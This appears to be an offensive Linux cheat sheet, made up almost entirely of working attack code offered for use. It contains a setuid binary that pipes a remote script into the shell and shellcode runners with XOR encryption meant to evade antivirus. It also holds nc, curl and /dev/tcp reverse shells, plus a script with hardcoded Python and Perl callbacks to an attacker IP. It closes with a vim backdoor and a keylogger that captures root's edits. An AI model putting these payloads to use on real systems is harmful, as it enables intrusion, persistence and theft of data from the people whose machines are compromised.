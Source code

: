 # Linux

### Binary Stage Zero

```c
#include<stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);
  setgid(0);
	system("curl <ip>/run.txt|sh");	
	return 0;
}
```

### Shellcode Runner

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = "..."

int main (int argc, char **argv) {
    int (*ret)() = (int(*)())buf;
    ret();
}
```

Compile with `gcc -o sc sc.c -z execstack` . It might be useful to add some shellcode encryption to bypass AV \(caesar, xor, aes,..\).

#### Encrypt

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = "..."

int main (int argc, char **argv) {
    char key = 'X';
    int len = (int) sizeof(buf);
    for (int i=0; i<len ; i++) {
        printf("\\x%02X",buf[i]^key);
    }
    return 0;
}
```

#### Encrypted Runner

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = "..."

int main (int argc, char **argv) {
    char key = 'X';
    int len = (int) sizeof(buf);
    for (int i=0; i<len-1 ; i++) {
        buf[i] = buf[i]^key;    
    }
    int (*ret)() = (int(*)())buf;
    ret();
}
```

### Shell nc reverse

```text
touch /tmp/x; rm /tmp/x; mkfifo /tmp/x; cat /tmp/x | /bin/sh -i 2>&1 | nc $LHOST $LPORT > /tmp/x
```

### Shell curl reverse

```text
 curl -sNkT . http://$LHOST:$LPORT </dev/fd/3| sh 3>&-;} 3>&1|:
```

### Shell shell.now.sh

```text
# Reverse Shell as a Service
# https://github.com/lukechilds/reverse-shell
#
# 1. On your machine:
#      nc -l 1337
#
# 2. On the target machine:
#      curl https://shell.now.sh/yourip:1337 | sh
#
# 3. Don't be a dick
 
if command -v python > /dev/null 2>&1; then
  python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.9.0.194",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
  exit;
fi
 
if command -v perl > /dev/null 2>&1; then
  perl -e 'use Socket;$i="10.9.0.194";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  exit;
fi
 
if command -v nc > /dev/null 2>&1; then
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.194 443 >/tmp/f
  exit;
fi
 
if command -v sh > /dev/null 2>&1; then
  /bin/sh -i >& /dev/tcp/10.9.0.194/443 0>&1
  exit;
fi
```

### VIM Backdoor

To run vim with the user environment when sudo is used, we can add an alias to .bashrc:

```text
alias sudo="sudo -E"
```

#### Silently source custom script \(add to .vimrc\)

```text
:silent !source ~/.notabackdoor
```

#### Add Keylogger

Create vim plugin in ~/.vim/plugins:

```text
:autocmd BufWritePost * :silent :w! >> /dev/shm/keylog.txt
```

Alternatively if you want to only log files edited by root:

```text
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /dev/shm/keylog.txt
:endif
```




